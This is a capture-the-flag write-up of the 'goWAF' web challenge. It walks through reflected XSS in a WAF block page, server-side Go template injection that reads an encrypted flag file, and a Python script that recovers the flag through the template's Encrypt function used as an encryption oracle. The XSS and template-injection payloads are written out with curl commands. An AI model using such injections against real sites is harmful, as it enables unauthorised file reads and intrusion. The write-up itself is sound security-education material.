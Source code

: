 # goWAF
* Category: Web
* 300 Points
* Solved by the JCTF Team

## Description
> I got hacked last week so I added a WAF to protect my site,
>
> Now I'm protected!


## Solution

We visit the attached website and get a login page.

Scanning through the sources, we see the following comment:

```html
    <!-- Generated by GoDoc https://127.0.0.1/docs -->
```

Let's try to visit `/docs`:

![](images/gowaf.png)

We get a documentation server with some strange functions.

We've waited enough, it's time to try and login. If we enter a blacklisted character as the username or password, we get blocked by the WAF:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl 'https://gowaf.appsecil.ctf.today/login'  --data-raw $'{"username":"\'","password":"123456"}'
{"isSuccess": false, "redirect": "/blocked?incidentID=%23089666"}
```

Following the redirect, we arrive to the WAF notice:

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
<head>
    <title>WAF 403 Forbidden</title>
    <style>body{font-family:sans-serif;font-size:13px;color:#000;}</style>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
</head>
<body bgcolor="white">
<br /><br /><br /><br />
    <center>Sorry <b>10.42.131.137</b>, your request cannot be processed.<br />
        For security reasons, it was blocked and logged.<br /><br />
        <!-- Unimportant Base64 encoded image, stripped for clarity -->
        <br /><br />
        If you believe this was an error please contact the<br />
        webmaster and enclose the following incident ID:<br /><br />[ <b>#089666</b> ]
    </center>
</body>
</html>
```

The first thing that we notice is that the `incidentID` parameter is included as-is in the webpage, allowing an easy XSS attack:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s "https://gowaf.appsecil.ctf.today/blocked?incidentID=<script>alert(1)</script>" | grep alert
        webmaster and enclose the following incident ID:<br /><br />[ <b><script>alert(1)</script></b> ]
```


However, we don't have anyone to send this URL to. 

The clue comes from the `/docs` page: Notice how the title of the page is `{{goWAF}}`. In Golang, this syntax is used for [templates](https://golang.org/pkg/text/template/). 

This means that we can send something like `{{action}}` and the action will be executed on the server-side, and returned to us as output.

For example:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{print "Test"}}' | grep Test
        webmaster and enclose the following incident ID:<br /><br />[ <b>Test</b> ]
```

We can call other functions, such as the ones we met in the `/docs` page:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{ReadFileEncrypted "flag"}}' | grep "incident"
        webmaster and enclose the following incident ID:<br /><br />[ <b>AAAAAAAAAAAAAA5dCV8kZB9WND5VCUZOMwMN</b> ]
```

We got the encrypted flag! Let's try to decrypt it:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Decrypt (ReadFileEncrypted "flag")}}' | grep "incident"
        webmaster and enclose the following incident ID:<br /><br />[ <b>Only admins can use the decryption function</b> ]
```

No luck. Can we encrypt?

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Encrypt "Test"}}' | grep "incident"
        webmaster and enclose the following incident ID:<br /><br />[ <b>FRUDJw==</b> ]
```

So this is (probably) somehow encoded in some base. We'll start by assuming that this is base64, and reconsider if needed. 

Now, let's try to encrypt our way to the expected output.

For the first character, we'll try to encrypt every possible printable ASCII letter until we arrive to a result which if decoded as base64, is equal to the base64-decoded first character of the encrypted flag file we got.

Our first character after decoding as base64 is `0`:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# echo AAAAAAAAAAAAAA5dCV8kZB9WND5VCUZOMwMN | base64 -d | xxd -g 1
00000000: 00 00 00 00 00 00 00 00 00 00 0e 5d 09 5f 24 64  ...........]._$d
00000010: 1f 56 34 3e 55 09 46 4e 33 03 0d                 .V4>U.FN3..
```

Here's what we get if we encrypt 'z':

```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Encrypt "z"}}' | grep -Po '(?<=\[ <b>)([^<]+)(?=</b> \])' | base64 -d | xxd -g 1
00000000: 3b
```

And here's what we get if we encrypt 'A':
```console
root@kali:/media/sf_CTFs/appsec/goWAF# curl -s 'https://gowaf.appsecil.ctf.today/blocked' -G --data-urlencode 'incidentID={{Encrypt "A"}}' | grep -Po '(?<=\[ <b>)([^<]+)(?=</b> \])' | base64 -d | xxd -g 1
00000000: 00
```

So 'A' matches our first character of the flag.

We can automate this with a Python script:
```python
import requests
import string
import base64
import re

OUTPUT_REGEX = re.compile(r'\[ <b>([^<]+)</b> \]')
decode_func = base64.b64decode

def get_output(command):
    r = requests.get("https://gowaf.appsecil.ctf.today/blocked", params = {"incidentID": '{{' + command + '}}'})
    match = OUTPUT_REGEX.search(r.text)
    if match:
        return match.group(1)
    raise RuntimeError("Can't find output pattern")

encoded_flag = get_output('ReadFileEncrypted "flag"')
print("Encoded flag: {}".format(encoded_flag))

decoded_flag = decode_func(encoded_flag)

known = ""

print(f"Recovering output: {known}", end='', flush = True)

# Skip '"' and '\' which break the command syntax and are (hopefully) not needed
ALPHABET = set(string.ascii_letters + string.digits + string.punctuation) - set('"\\') 

for i in range(len(known), len(decoded_flag)):
    for c in ALPHABET:
        res = get_output(f'Encrypt "{known + c}"')
        decoded_res = decode_func(res)
        if decoded_res[i] == decoded_flag[i]:
            print(c, end = '', flush = True)
            known += c
            break

print()
```

Output:

```console
root@kali:/media/sf_CTFs/appsec/goWAF# python3 solve.py
Encoded flag: AAAAAAAAAAAAAA5dCV8kZB9WND5VCUZOMwMN
Recovering output: AppSec-IL{G0G0P0w3rR4ng3rs}
```

The flag is `AppSec-IL{G0G0P0w3rR4ng3rs}`.

Fun fact: If we XOR the flag with the encrypted output, we get the key: `AppSec-IL{ImNotTheFlag!}`.
